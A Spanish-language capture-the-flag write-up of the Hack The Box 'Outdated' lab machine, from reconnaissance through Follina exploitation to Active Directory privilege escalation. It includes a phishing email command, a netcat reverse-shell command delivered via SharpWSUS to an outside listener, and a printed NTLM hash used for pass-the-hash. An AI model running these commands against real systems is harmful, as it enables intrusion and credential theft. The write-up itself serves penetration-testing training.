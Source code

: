```yaml
---
layout: post
title: "Write Up Outdated."
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Windows,HTB,SMB,CVE,WinRM,BloodHound,BloodHound,EvilWinRM,SMB,Network,Vulnerability-Assessment,Common-Security-Controls,Outdated-Software,Security-Tools,Authentication,Ldap,Impacket,BloodHound,Active-Directory,Certificate-Services,Powershell,Reconnaissance,User-Enumeration,Pivoting,Authentication-Bypass,Group-Membership,Misconfiguration,Anonymous_Guest-Access,OSCP,eWPT,eWPTxv2,OSWE]
image:
  path: /assets/img/outdated/Captura%20de%20pantalla%20(188).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.175 -oG allports
```

![list](/assets/img/outdated/Kali-2022-09-05-14-10-52.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -sCV -p25,53,88,135,139,143,389,445,464,587,593,636,2179,3268,3269,5985,8530,8531,9389 10.10.10.248 -oN target
```

![list](/assets/img/outdated/Kali-2022-09-05-14-15-03.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Explotion


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.


Pero comovemos el puerto 445 de samba abierto vamos a pasarle el crackmapexec para ver el nombre de la maquina y el dominio.


![list](/assets/img/outdated/A-2022-12-31-01-14-36.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El doninio es `outdated.htb`,lo agrgamos al `/etc/hosts` y el nombre de la maquina ed DC y el smb no esta firmado.


Por otra parte con smbclient y smbmap vamos a ver que shares podemos enumerar para obtener algun tipo de informacion.


![list](/assets/img/outdated/AWESOMW-2023-01-03-12-41-46.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Dentro de la carpeta compartida share hay PDF llamado `NOC_Reminder.pdf`.


![list](/assets/img/outdated/A-2022-12-31-01-36-16.png){:.lead width="800" height="100" loading="lazy"}


tambien podemos tratar de conectarnos por rpc pero no tenemos suerte, tambien provemos el kerbrute ya que tenemos el puerto 88 abierto el de kerberos y nos aparecen dos usuarios validoa al parecer `Administrator@outdated.htb` y `guest@outdated.htb` que vamos a provar ARSProast attack pero no tenemos suerte.


Haci que como no conseguimos nada por ese camino regresamos al pdf y lo que probamos es a mandar un correo al correo que dice en el pdf por lo que se es un reporte del NOC sobre la ultimas vulnerabilidades acontecidas el correo se lo mandamos e la siguente manera. 


```bash
swaks --to itsupportqoutdated.htb --from axel@outdated --server mail.outdated.htb --body "http://10.10.16.45" --header "Subject: INTERNAL WEB APPLICATION"
```


{:.note}
Nos ponemos ala escucha en el puerto 443 con netcat para ver cuando se conecte la informcion del User-Aagente.


![list](/assets/img/outdated/AWESOMW-2023-01-04-02-43-15.png){:.lead width="800" height="100" loading="lazy"}


Buscando por los exploit representado en el pdf encontramos el [follina] nos lo decargamos , para usar este exploy debemos ejecutar uns instruccion por eso vamos a usar `nishang`  la [powersell.ps1] y/o [ConPtyShell] para ganar acceso al sistema.


[follina]:(https://github.com/chvancooten/follina.py)
[powersell.ps1]:(https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
[ConPtyShell]:(https://github.com/antonioCoco/ConPtyShell)


![list](/assets/img/outdated/AWESOMW-2023-01-04-02-59-47.png){:.lead width="800" height="100" loading="lazy"}


Lo que hace follina es inyectar un paylodad malicio al servido como exploit.html que esta encriptado en base 64 y lo que trata de  ejecutar son es un binario en el servidor `mpsigstub.exe`.


Ahora lo que debemos hacer es volver a mandar el correo con un servidor web levantado en el puero 80 ademas de estar ala escucha por el puerto 443 y ejecutarlo esto lo que hara esque por detars ejecutara la shell de nidshang orotgandono una shell en el servidor.


![list](/assets/img/outdated/AWESOMW-2023-01-04-03-11-05.png){:.lead width="800" height="100" loading="lazy"}


Aunque ya estamos en la ,maquina victima aun no podemos ver la flag del usuario de bajos privileguios ya que estamos en un contenedor, por lo que es hora de pivotiar de usuario y para eso trataremos de de ver los privilegios del mismo, taareas etc.


## Escalation Privileges


Como husmeando por todos los servidores vamos a jugar con bloohound para saber que caminos para hacernos domain controller para esto ejecutamos `neo4j console` esto te abrira un puerto local 4747 y luego debemos hacer el comando `bllohound &> /dev/null disown` para abrirlo y nos vamos a dscargar y subir a la maquina victima la herramienta [sharkhound.ps1] para recolectar informacion.


[sharkhound.ps1]:(https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)


![list](/assets/img/outdated/AWESOMW-2023-01-04-12-31-47.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El `data.zip` que nos da lo subimo al bloodhound para ver la info que nos arrojo.


![list](/assets/img/outdated/Captura%20de%20pantalla%20(293).png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/outdated/Captura%20de%20pantalla%20(294).png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Descargamos el [whisker] y lo subimos a la maquina victima y luego lo ejecutamos.


[whisker]:(https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Whisker.ps1)



```bash
Invoke-Wisker -Command "add /target:sflowers"
```


![list](/assets/img/outdated/AWESOMW-2023-01-04-14-28-56.png){:.lead width="800" height="100" loading="lazy"}


Ahora nos decargaremos el [Ruberus] de igualmanera lo subiremos a la maquina victima y lo ejecutaremos.


[Ruberus]:(https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)


{:.note}
Esto nos dara el hash ntlm `1FCDB1F6015DCB318CC77BB2BDA14DB5` el caul usaremos para hacer pass the hash.


![list](/assets/img/outdated/AWESOMW-2023-01-04-14-33-29.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con crackmapexec verificamos si el has es valido para smb pero no lo es , tambien lo verificamos para el servicio de winrm y si es valida y podemos hacer pass the hash y conectarnos, ahora somos el usuario `sflowers`.


![list](/assets/img/outdated/AWESOMW-2023-01-04-14-35-47.png){:.lead width="800" height="100" loading="lazy"}


Ya podemos visualizar las flag del usuario e bajos privileguios en el escritorio del usuario `sflowers`.


![list](/assets/img/outdated/AWESOMW-2023-01-04-14-43-52.png){:.lead width="800" height="100" loading="lazy"}


Ahora debemos tratr de obtener privileguios nt authoryty system que es el usuario con privileguios root para esto vamos a enumerar los permioso de `sflowers`.


![list](/assets/img/outdated/AWESOMW-2023-01-04-14-44-34.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Como vemos tenemos permisos [WSUS] haci que averiguaremos sobre el tema y veremos posibles exploits.


[WSUS]:(https://labs.nettitude.com/blog/introducing-sharpwsus/)


Aparte nos debemos decargar el repo para compilarlo en una maquina windows y crear el sharpwsus.exe tambien nos decargaremos el [psexec] y el netcat tambien porque se ve que se usa los dos para explotar la vulnerabilidad y ejecutamos los siguientes comandos.


[psexec]:(https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)


```bash
.\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\psexec.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\\Temp\\nc.exe -e 10.10.16.14 443" /tittle:"shell"
```

{:.note}
Como es obio se debe esatar a la escucha con netcat en el puerto 443, pero debemos esperar a que se suba el parche esto puede demorar uno tres a cinco minutos, para comprovarlo podemos usar `check` como se muestra en la siguiente imagen solo debemos cambiar el `computername` y el `groupname` por los que usted puso.


![list](/assets/img/outdated/AWESOMW-2023-01-04-15-36-45.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/outdated/AWESOMW-2023-01-04-15-36-45.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag de root.txt esta en el ecritorio del usuario privilegiado.

***
```bash
🎉 Felicitaciones ya has comprometido Outdated de Hack The Box. 🎉
```
{:.centered}
***

Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSEP](){:.heading.flip-title}
{:.read-more}
